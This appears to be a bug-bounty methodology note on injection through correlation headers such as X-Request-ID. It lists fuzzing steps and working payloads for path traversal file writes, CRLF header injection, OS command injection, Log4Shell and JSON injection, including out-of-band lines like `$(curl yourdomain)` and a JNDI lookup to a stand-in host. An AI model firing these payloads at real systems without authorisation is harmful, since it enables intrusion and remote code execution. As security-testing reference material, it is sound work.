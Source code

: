 # X-Correlation Injection

### Reference

{% embed url="https://blog.criticalthinkingpodcast.io/p/hackernotes-ep86-xcorrelation-frans-rce-research-drop" %}

#### Summary Notes on X-Correlation Injection

**Overview**:

* Correlation headers (e.g., `X-Request-ID`, `X-Correlation-ID`) track requests for debugging but expand attack surface via interactions with file systems, CI pipelines, logging, and backend services.
* Vulnerabilities: Path traversal, header injection, OS command injection, Log4Shell, JSON injection.
* Risks: User-controlled, often unvalidated; reflection in responses is a strong indicator.
* False Positives: Regex validation (e.g., UUID format) or endpoint restrictions.

***

### Testing Methodology

**1. Identify Headers**

* Inspect response headers and `access-control-*` for `-id` or `id` headers.
* Search proxy logs (e.g., Burp) for similar headers.
* Test reflection: Add `X-Request-ID: test123` and check if echoed in response.

**2. Fuzz Headers**

* **Error-Based**: Inject special chars (e.g., `' " % & > [ $`). Test site functionality; watch for 500s or odd behaviors.
* **Blind/OOB**: Use payloads like blind XSS, OOB RCE (e.g., `$(curl yourdomain)`), SQLi DNS, Log4Shell. Monitor OOB server (e.g., Burp Collaborator).
* Optimize Payloads: Minimize special chars; use `$IFS` for spaces; add unique IDs; collect data (e.g., `whoami` via bash script); set alerts (e.g., Slack webhook).

**3. Test Specific Payloads**

* **Path Traversal/File Write**: `x-request-id: ../../../../var/www/html/<?phpinfo()?>.php`
* **Header Injection**: `x-request-id: 1%0d%0ax-account:456`
* **Java Header Injection**: `x-request-id: 1%c4%8d%c4%8anew-header: f00`
* **OS Command Injection**: `x-request-id: $(id)`
* **Log4Shell**: `x-request-id: ${jndi:rmi://x${sys:java.version}.yourdomain/a}`
* **JSON Injection**: `x-request-id: 1"}. "payload":{"account":"456","foo":"`

**4. JSON Injection Focus**

* Determine Context: Test `"` vs. `\"`; check premature endings (e.g., `1"}x}}` vs. `1"}}}x`).
* Duplicate Properties: `1", "foo":{"foo":"` + `"}, "id": "4567`
* Scenarios: S3 policy manipulation; JWT property injection (e.g., add `scope` or `user`).
* Wordlists: Build from API docs, traffic, Wayback; maintain casing.

**5. Analyze & Document**

* Confirm: OOB logs, behavior changes, file access.
* Impact: File writes, API manipulation, RCE, privilege escalation.
* Tools: Burp Suite (Repeater/Intruder), OOB servers, custom scripts.

***

#### Key Takeaways

* Treat headers as multi-context inputs; fuzz for errors and OOB.
* JSON injection often blind—probe with context breaks and duplicates.
* End payloads with `“`, `\”`, or `\` for detection.
* Resources: Unicode converter (https://r12a.github.io/app-conversion/); Podcast (https://www.criticalthinkingpodcast.io/tlbook).
